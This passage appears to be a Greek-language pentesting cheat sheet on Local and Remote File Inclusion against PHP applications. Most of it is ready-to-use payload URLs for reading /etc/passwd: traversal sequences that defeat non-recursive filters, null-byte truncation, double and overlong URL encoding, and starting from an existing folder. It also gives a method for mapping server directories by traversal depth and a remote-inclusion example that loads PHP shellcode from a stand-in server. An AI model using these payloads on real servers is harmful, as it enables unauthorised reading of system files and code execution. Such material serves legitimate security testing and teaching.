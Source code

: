 ### **OS X**

Ελέγξτε τη λίστα LFI του linux.

## Basic LFI and bypasses

Όλα τα παραδείγματα είναι για Local File Inclusion αλλά θα μπορούσαν να εφαρμοστούν και σε Remote File Inclusion (σελίδα=[http://myserver.com/phpshellcode.txt\\](<http://myserver.com/phpshellcode.txt)/>).
```
http://example.com/index.php?page=../../../etc/passwd
```
### ακολουθίες διαδρομής χωρίς αναδρομή
```python
http://example.com/index.php?page=....//....//....//etc/passwd
http://example.com/index.php?page=....\/....\/....\/etc/passwd
http://some.domain.com/static/%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c/etc/passwd
```
### **Null byte (%00)**

Παράκαμψη της προσθήκης περισσότερων χαρακτήρων στο τέλος της παρεχόμενης συμβολοσειράς (παράκαμψη του: $\_GET\['param']."php")
```
http://example.com/index.php?page=../../../etc/passwd%00
```
Αυτό έχει **λυθεί από το PHP 5.4**

### **Κωδικοποίηση**

Μπορείτε να χρησιμοποιήσετε μη τυπικές κωδικοποιήσεις όπως η διπλή κωδικοποίηση URL (και άλλες):
```
http://example.com/index.php?page=..%252f..%252f..%252fetc%252fpasswd
http://example.com/index.php?page=..%c0%af..%c0%af..%c0%afetc%c0%afpasswd
http://example.com/index.php?page=%252e%252e%252fetc%252fpasswd
http://example.com/index.php?page=%252e%252e%252fetc%252fpasswd%00
```
### Από υπάρχον φάκελο

Ίσως το back-end να ελέγχει τη διαδρομή του φακέλου:
```python
http://example.com/index.php?page=utils/scripts/../../../../../etc/passwd
```
### Εξερεύνηση Καταλόγων Συστήματος Αρχείων σε έναν Διακομιστή

Το σύστημα αρχείων ενός διακομιστή μπορεί να εξερευνηθεί αναδρομικά για να εντοπιστούν κατάλογοι, όχι μόνο αρχεία, χρησιμοποιώντας ορισμένες τεχνικές. Αυτή η διαδικασία περιλαμβάνει τον προσδιορισμό του βάθους του καταλόγου και την έρευνα για την ύπαρξη συγκεκριμένων φακέλων. Παρακάτω παρατίθεται μια λεπτομερής μέθοδος για να το επιτύχετε αυτό:

1. **Προσδιορίστε το Βάθος του Καταλόγου:** Διαπιστώστε το βάθος του τρέχοντος καταλόγου σας ανακτώντας επιτυχώς το αρχείο `/etc/passwd` (ισχύει αν ο διακομιστής είναι βασισμένος σε Linux). Ένα παράδειγμα URL μπορεί να έχει τη δομή που ακολουθεί, υποδεικνύοντας βάθος τριών:
```bash
http://example.com/index.php?page=../../../etc/passwd # depth of 3
```
2. **Δοκιμή για Φακέλους:** Προσθέστε το όνομα του υποψήφιου φακέλου (π.χ., `private`) στο URL, στη συνέχεια πλοηγηθείτε πίσω στο `/etc/passwd`. Το επιπλέον επίπεδο καταλόγου απαιτεί την αύξηση του βάθους κατά ένα:
```bash
http://example.com/index.php?page=private/../../../../etc/passwd # depth of 3+1=4
```
3. **Ερμηνεία των Αποτελεσμάτων:** Η απάντηση του διακομιστή υποδεικνύει αν ο φάκελος υπάρχει:
- **Σφάλμα / Χωρίς Έξοδο:** Ο φάκελος `private` πιθανότατα δεν υπάρχει στην καθορισμένη τοποθεσία.
- **Περιεχόμενα του `/etc/passwd`:** Η παρουσία του φακέλου `private` επιβεβαιώνεται.